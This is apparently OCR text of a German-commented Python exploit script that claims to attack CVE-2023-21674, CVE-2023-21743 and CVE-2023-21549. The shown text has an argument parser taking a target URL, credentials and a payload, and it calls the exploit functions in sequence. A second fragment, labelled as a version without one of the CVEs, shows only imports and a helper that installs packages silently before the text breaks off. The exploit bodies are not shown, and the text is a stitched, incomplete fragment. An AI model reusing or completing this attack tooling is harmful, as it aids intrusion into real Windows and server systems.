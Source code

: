     all_modules_installed = True
    for module in required_modules:
        if not check_and_install_module(module):
            all_modules_installed = False
            break

    if all_modules_installed:
        parser = argparse.ArgumentParser(description="Exploits CVE-2023-21674, CVE-2023-21743 and CVE-2023-21549")
        parser.add_argument("--target_url", help="Target URL für CVE-2023-21743")
        parser.add_argument("--username", help="Benutzername für CVE-2023-21743")
        parser.add_argument("--password", help="Passwort für CVE-2023-21743")
        parser.add_argument("--payload", default="exploit_payload", help="Payload für CVE-2023-21743")
        parser.add_argument("--output_dir", help="Ausgabe Verzeichnis für CVE-2023-21674")
        args = parser.parse_args()

        print("[+] Starte Exploit-Skript...")

        exploit_cve_2023_21674(args.output_dir)

        if args.target_url and args.username and args.password:
            exploit_cve_2023_21743(args.target_url, args.username, args.password, args.payload)
        else:
            print("[WARNUNG] CVE-2023-21743: Ziel-URL, Benutzername und Passwort sind erforderlich, um diesen Exploit auszuführen.")

        exploit_cve_2023_21549()

        print("[+] Exploit-Skript abgeschlossen.")
    else:
        print("[FEHLER] Nicht alle benötigten Module konnten installiert werden. Skriptabbruch.")






-----
Ohne  cve 2023 21743

-----
import ctypes
import ctypes.wintypes
import subprocess
import random
import os
import tempfile
import time
import requests
from requests.auth import HTTPBasicAuth
import argparse
import sys
import shutil

def check_and_install_module(module_name):
    """Überprüft und installiert das benötigte Python-Modul."""
    try:
        __import__(module_name)
        print(f"[INFO] Modul '{module_name}' ist bereits installiert.")
        return True
    except ImportError:
        print(f"[INFO] Modul '{module_name}' ist nicht installiert. Starte Installation...")
        try:
            subprocess.check_call([sys.executable, '-m', 'pip', 'install', module_name], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            print(f"[INFO] Modul '{module_name}' erfolgreich installiert.")
            return True
        except subprocess.CalledProcessError as e:
            print(f"[FEHLER] Fehler bei der Installation von '{module_name}': {e}")
